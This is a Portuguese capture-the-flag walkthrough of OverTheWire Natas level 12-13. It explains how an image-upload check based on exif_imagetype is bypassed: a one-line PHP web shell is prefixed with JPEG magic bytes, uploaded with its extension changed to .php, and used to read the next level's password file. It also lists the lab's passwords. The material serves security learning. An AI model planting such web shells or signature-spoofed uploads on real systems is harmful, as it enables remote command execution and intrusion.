# [Natas Level 12-13](https://overthewire.org/wargames/natas/natas13.html)


### Objetivo
O objetivo desse level é encontrar o password para o próximo level **natas14**. Além de um campo para realizar o envio de um arquivo como no desafio anterior, mas validações são adicionadas para dificultar.


### Credenciais para autenticação no desafio

```
Username: natas13
```
```
Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```
```
URL: http://natas13.natas.labs.overthewire.org
```

### Resolução

Começo esse desafio abrindo a URL informada nas instruções e me autenticando no usuário **natas13**:



<br>

Após realizada a autenticação, uma mensagem semelhante a do desafio anterior aparece, possuindo como diferença somente uma nota dizendo que por questões de segurança a partir de agora são aceitos apenas aquivos de imagem:



<br>

Começo visualizando o código fonte desse arquivo, muito parecido com o [natas 11-12](../natas11-12/), porém aqui é realizado uma validação adicional do arquivo enviado para confirmar se ele é realmente uma imagem, como pode ser visto abaixo destacado em laranja:



<br>

Vou deixar de lado oque essa função **exif_imagetype** faz por enquanto, primeiro vou testar o que recebo ao enviar um arquivo com a extensão **.jpeg**:

    touch teste.jpeg


<br>

Depois de enviar o arquivo tenho como resposta que ocorreu um erro quando a função **exif_imagetype** tentou ler o arquivo, além de uma mensagem(**File is not an image**) dizendo o arquivo não é uma imagem:



<br>

Faço mais um teste criando outro arquivo com a extensão **.php**, porém recebo exatamente o mesmo erro, pelo que parece não é a extensão que está influênciando na recusa dos meus arquivos:

    touch teste.php




<br>

Voltando ao que a função **exif_imagetype** faz, encontrei o uma informação interessante na [documentação](https://www.php.net/manual/pt_BR/function.exif-imagetype.php), essa função lê os primeiros bytes do arquivo e verifica a sua assinatura. Se eu pudesse modificar esses primeiros bytes o arquivo poderia burlar a validação.



<br>

Procurei pelas assinaturas que os arquivos possuem e encontrei uma [lista](https://en.wikipedia.org/wiki/List_of_file_signatures) que contem entre elas uma assinatura **jpeg** em que **FF D8 FF EE** representa a assinatura hexadecimal e **ÿØÿî** como a assinatura do arquivo aparece quando interpretada como texto:



<br>

Com isso em mãos vou utilizar o mesmo [shell](../natas11-12/shell.php) usado no desafio anterior e salvá-lo no arquivo **teste.php** colocando a assinatura na frente do código, isso vai ser útil para quando eu modificar os bytes iniciais, o código do shell não ser alterado:

    ÿØÿî<?php echo shell_exec($_GET['e'].' 2>&1'); ?>



<br>

Há várias formas de alterar os bytes hexadecimais de um arquivo, uma bem fácil é por meio do site [hexed.it](https://hexed.it/). O caminho é o seguinte: abro meu arquivo(**Open file**), modifico os 4 primeiros bytes para **FF D8 FF EE** e depois exporto(**Export**) o arquivo para uma pasta qualquer:




<br>

Com o arquivo modificado, faço a seleção dele no desafio, mas antes de enviá-lo, vou precisar fazer mais uma alteração.



<br>

Abro o **DevTools**(ferramentas de desenvolvedor) com o atalho **F12** e modifico a extensão de **.jpg** para **.php** para permitir que meu código funcione correetamente.



<br>

Por fim clico em **Upload File** e o arquivo é enviado com sucesso:



<br>


Clicando nesse arquivo recém criado recebo um erro indicando que o parâmetro **e** está indefinido, isso ocorre pois não passei nenhum parâmetro na URL e o meu shell não está conseguindo executar o valor esse parâmetro.



<br>

Adicionando **?e=** e colocando o valor **cat /etc/natas_webpass/natas14**, obtenho um password(começando a partir da letra q):


<br>

Dessa forma obtenho o password para o próximo level **natas14**:

    qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP